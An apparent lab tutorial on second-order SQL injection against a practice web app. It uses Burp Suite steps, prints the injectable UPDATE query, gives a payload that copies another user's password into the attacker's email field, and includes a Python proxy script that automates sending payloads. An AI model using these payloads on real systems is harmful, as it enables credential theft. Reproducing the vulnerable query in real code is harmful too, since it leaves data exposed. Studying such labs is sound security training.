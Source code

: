## Second-Order-SQL-Injection

# Overview
- Use SQL queries to send data directly to your computer
- Configure a simple DNS server to receive data from an SQL server
- Perform simple filter evasion
- Extract data from an SQL server with OOB SQL Injection

### Definition
There are some applications where input fields for user-supplied information might not be immediately vulnerable to SQL injection, but the field gets stored in the database and later passed into an SQL query insecurely. This is called a second-order SQL Injection.

**Step 1: Executing a Second-Order SQL Injection Attack**

a. Open Burp Suite Community, then head to the proxy tab. Ensure that the intercept is turned off, then open the browser and browse the vulnerable website, here we are using: http://159.89.161.185:50.

![image](https://i.imgur.com/9W63yPJ.png)﻿


b. Register for an account. This example will be using the username ‘guest’.

c. Log into your account with the username and password you just registered with. You should see the page below.
﻿![image](https://i.imgur.com/7pO4eSx.png)

d. Head back to Burp Suite and turn “Intercept" on. Then, go back to the site, update your username, and press “Update". 
![image](https://i.imgur.com/z8jzlMR.png)
﻿
e. The request will appear in Burp Suite, right click any area on the request and click “Send to Repeater". Head back to the “Proxy” tab and drop the request.
![image﻿](https://i.imgur.com/3BbDk1d.png)


Back at the “Repeater” tab, you will be able to easily update your user information and edit your SQL injection payloads.

f. Click “Send" in the repeater and refresh the SQLi Lab page. You should be redirected to the main page. Click “Profile" to return to the profile page and you should see your new username.
![image](https://i.imgur.com/E00W00i.png)



However, the username, email, and password fields are vulnerable to SQL injection and run the SQL query below:
```
cursor.execute(f"UPDATE users SET username='{username}', email='{email}', password='{password}' WHERE uid={request.session['user']['uid']}")
```


This means that you could retrieve other users’ information and save it in your email to read.

g. In Burp Suite’s repeater, select the value of the email parameter. In the “Inspector" section, you should see “Decoded from: URL encoding". Enter the following payload into the text field to URL encode it, then click “Apply changes" and “Send".
```
', email=(SELECT password FROM (SELECT * FROM users) AS a WHERE username='test user'), password='
```

### The above query does the following:
- Closes the quote for updating the email
- Selects all users under the alias ‘a’ and filters the results by the username ‘test user’
- Sets the email to the password from the result of step 2
- Opens a new quote by setting the password column

**Step 2: Automating Second-Order SQL Injection**

Since the application redirects you to the main page every time you update your user information, it is difficult to test SQL Injection payloads as you would have to navigate to the profile page each time. To make it easier, you may write a script like the one below to run a proxy server that automates sending payloads and retrieving results.

a. Using your preferred IDE, create the file “app.py” and write the following code into it. Remember to replace “YOUR SESSION COOKIE” with your session cookie after registering and logging in, and “YOUR USERNAME” with your username.
```
import uvicorn
from fastapi import FastAPI, Request, Response, status, UploadFile, Form, File, WebSocket
import requests
from bs4 import BeautifulSoup

app = FastAPI()
url = "http://159.89.161.185:5007"

# create route with payload parameter to send SQLi payload

COOKIE = "YOUR SESSION COOKIE"
@app.get("/")
async def root(payload: str):
   r = requests.post(url+"/profile", cookies = {"session": COOKIE}, data = {"username": "YOUR USERNAME", "password": "test", "email": payload})
   r = requests.get(url+"/profile", cookies = {"session": COOKIE})
   soup = BeautifulSoup(r.text, 'html.parser')
   print("Payload: " + payload)
   print("SQLi Result: " + soup.find("input", {"name": "email"})['placeholder'])
   return r.text

if __name__ == '__main__':
   uvicorn.run("app:app", host="0.0.0.0", port=8000, reload=True)
```

b. Install the required packages and run the server by running this in your terminal:
```
pip3 install fastapi uvicorn requests beautifulsoup4
python3 app.py
```

c. Then, navigate to http://localhost:8000 and run your SQL injection payloads by using the “payload" parameter.
```
http://localhost:8000/?payload=INSERT PAYLOAD
```

d. Using the payload from step 2! But this time, set the email field to the password instead of the username field. This is because the username field is a unique column. You should be able to receive the output of your SQL injection payload.
![image](https://i.imgur.com/82tS6Ch.png)

## References
https://app.stackup.dev
